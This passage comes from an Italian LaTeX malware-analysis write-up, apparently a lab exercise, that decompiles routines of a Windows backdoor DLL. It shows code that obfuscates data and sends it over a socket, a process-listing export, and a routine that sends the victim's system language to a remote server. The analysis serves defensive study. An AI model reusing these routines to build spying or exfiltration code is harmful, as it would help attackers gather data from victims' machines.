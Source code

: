 La subroutine \texttt{sub\_100038EE} contiene il codice per offuscare i dati tramite operazione di addizione ed inviarli al server remoto:

\begin{lstlisting}[language=C]
int __cdecl sub_100038EE(SOCKET s, int a2, int len)
{
  int v3; // edi
  char *v4; // eax
  int v5; // edx
  char *v6; // esi
  char *v7; // ecx
  int v8; // eax
  int v9; // eax
  int v10; // edi

  v3 = len;
  v4 = (char *)malloc(len + 1);
  v5 = 0;
  v6 = v4;
  if ( len > 0 )
  {
    v7 = v4;
    v8 = a2 - (_DWORD)v4;
    v5 = len;
    do
    {
      *v7 = dword_1008E5D0 + v7[v8];
      ++v7;
      --len;
    }
    while ( len );
  }
  v6[v5] = 0;
  v9 = send(s, v6, v3, 0);
  v10 = -1;
  if ( v9 != -1 )
    v10 = v9;
  free(v6);
  return v10;
}
\end{lstlisting}

\subsubsection{Cosa fa l'export \texttt{PSLIST}?}

La funzione export \texttt{PSLIST} stampa tutti i processi attualmente in esecuzione all'interno della macchina. Se viene passato un processo specifico tramite la stringa in ingresso, viene stampato solamente quello.

\begin{lstlisting}[language=C]
int __stdcall PSLIST(int a1, int a2, char *Str, int a4)
{
  int result; // eax

  dword_1008E5BC = 1;
  result = sub_100036C3();
  if ( result )
  {
    if ( strlen(Str) )
      result = sub_1000664C(0, Str);
    else
      result = sub_10006518(0);
  }
  dword_1008E5BC = 0;
  return result;
}
\end{lstlisting}

\subsubsection{Q3: Quali funzioni API vengono invocate all'interno della subroutine \texttt{0x10004E79}? Come è possibile rinominare la funzione?}

La funzione invoca la chiamata API \texttt{GetSystemDefaultLangID}, che fornisce la lingua di sistema, e la invia al server remoto tramite socket. Basandosi su questa API, è possibile rinominare la funzione in \texttt{GetVictimLanguage}.

\subsubsection{Q4: Quali funzioni API Windows chiama direttamente \texttt{DllMain}? Quali invece a profondità 2?}

